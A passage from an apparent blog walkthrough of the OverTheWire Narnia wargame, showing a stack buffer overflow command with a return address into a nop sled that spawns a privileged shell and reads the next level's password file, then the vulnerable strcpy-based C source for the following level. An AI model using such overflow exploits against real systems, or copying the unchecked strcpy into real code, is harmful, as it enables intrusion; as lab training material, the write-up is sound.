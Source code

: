 Looks like `0xffffd516` should be right in the middle of our `nop` sled. So
combining everything we've got so far...

{% highlight bash %}
narnia2@melinda:/narnia$ EGG=`python /tmp/docilelumberjack/egg.py` ./narnia2 `python -c 'print "A"*140+"\x16\xd5\xff\xff"'`
$ id
uid=14002(narnia2) gid=14002(narnia2) euid=14003(narnia3) groups=14003(narnia3),14002(narnia2)
$ cat /etc/narnia_pass/narnia3
XXXXXXXXXX
{% endhighlight %}

On to level4.

## Level3 &rarr; Level4 {#level4}

{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
{% endhighlight %}


[Narnia]: http://overthewire.org/wargames/narnia/
[OverTheWire]: http://overthewire.org
[pwntools]: https://github.com/Gallopsled/pwntools